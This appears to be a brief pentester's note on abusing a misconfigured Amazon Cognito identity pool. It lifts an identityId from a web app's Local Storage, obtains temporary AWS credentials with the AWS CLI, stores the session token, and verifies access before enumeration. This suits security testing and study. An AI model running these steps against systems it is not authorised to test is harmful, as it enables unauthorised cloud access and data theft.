 # Amazon Cognito missconfiguration



## How found

```
Found 
- com.amplify.Cognito.eu-west-1.blalalalalalalalalala.identityId
- Value (eu-west-1:e3923078-cccc-bbbb-aaaa-xxxxxxxxxxxx)
both in Local Storage (always should check Local Storage)

use command:

aws cognito-identity get-credentials-for-identity \n
--identity-id "eu-west-1:e3923078-cccc-bbbb-aaaa-xxxxxxxxxxxx"

Data
{
Credentials:
    { "Access..": ...
    "SecretKey": ...
    "SessionToken": ...
    }
    
```

<figure><img src="../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

```
Next use that access and secret key access data

aws configure --profile profiletest

because of that session have  time to out, we should config in

~/.aws/credentials

Manual add line aws_session_token is SessionToken
```

<figure><img src="../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

```
Next test 

aws sts get-caller-identity --profile profiletest

use tools to exploit
https://github.com/NotSoSecure/cloud-service-enum.git
```

{% embed url="https://awstip.com/how-i-exploited-amazon-cognito-misconfigurations-to-access-confidential-s3-data-badb62cabfab" %}
